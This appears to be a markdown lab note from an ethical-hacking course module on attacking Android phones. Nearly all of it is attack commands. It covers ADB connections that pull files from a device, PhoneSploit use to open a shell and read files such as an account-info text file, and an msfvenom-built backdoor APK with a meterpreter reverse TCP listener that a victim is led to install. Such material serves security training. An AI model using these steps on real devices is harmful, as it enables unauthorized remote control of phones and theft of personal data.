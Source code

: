 # 17 - Hacking Mobile

## **Module 17 - Hacking Mobile Platforms**

###

###

### Download a file from Android using ADB Tool

```bash
adb devices -l

# Connection Establish Steps
adb connect 192.168.0.4:5555
adb devices -l
adb shell  

# Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```

### Download a file from Android using PhoneSploit

```bash
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
#OR
python3 -m pip install colorama

python3 phonesploit.py

# Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
# Type 4, to Access Shell on phone

pwd
ls
cd sdcard
ls
cd Download

#Download File using PhoneSploit
9. Pull Folders from Phone to PC

#Enter the Full Path of file to Download
sdcard/Download/secret.txt
```

## Generating and Executing Payloads for Android



#### Setup Android

* Open terminal, run `su`
* Run `ip addr add 10.10.10.69/24 dev eth0`

#### Generate Payload&#x20;

* `msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.10.11 R > Desktop/Backdoor.apk` R raw
* Host the payload and run a listener on Kali
* Type `use exploit/multi/handler`
* Type `set payload android/meterpreter/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Start listener, type `exploit -j -z`
* Browse link of file to start meterpreter session.

#### Exploit Execution

* Open kali hosted link.
* Download APK using es file downloader.
* Install and run.

### **Exploit the Android Platform through ADB using PhoneSploit**

* cd Phonesploit
* python3 -m pip install colorama
* python3 phonesploit.py
* 3
* 10.10.10.14
* 4
* pwd
* cd sdcard
* cd Download
* pwd
* cd sdcard
* cd downloads
* cat accnt-info.txt&#x20;
